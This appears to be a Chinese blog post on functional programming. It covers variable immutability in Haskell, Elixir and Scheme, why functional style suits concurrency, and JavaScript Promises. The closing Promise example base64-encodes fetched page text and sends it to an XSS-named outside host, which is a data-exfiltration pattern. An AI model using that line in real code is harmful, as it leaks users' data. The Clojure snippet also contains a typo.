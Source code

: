 函数式语言Haskell则为变量不可变，变量赋值后就不能再改变

```haskell
-- error

let a = 1
a = 2
```

函数式语言Elixir可重绑定，与它的宿主Erlang不同。重绑定后也是不同的两片内存

```elixir
# ok

a = 1
a = 2
```

函数式语言Lisp中也可通过`set!`宏改变变量

```scheme
;; ok

(define a 1)
(set! a (+ a 1))
```

***

为什么函数式语言天生适合写并发？因为抛弃了可变量意味着不存在条件竞争，幂等能显著提升并发编程的可靠性。原来在论坛看有人提到函数式编写的并发服务端连续运行很久而没有崩溃（相比于传统命令式语言）

***

除此之外，函数式范式的`map/apply`也很容易达到并行

比如Clojure标准库中的并发归约函数

```clojure
(nc sum.core
    (:require [clojure.core.reducers :as r]))

(defn sum [numbers]
    (r/fold + numbers))
```

***

## Promise/Future/async/await

熟悉JavaScript的一定不陌生Promise，通过then方法进行异步回调及错误处理

```javascript
fetch('http://iv4n.xyz')
  .then(r => r.text())
  .then(t => {
      fetch('http://receive.xss.cc/'+btoa(t))
        .then(r => r.json())
        .then(j => process(j))
  })
```
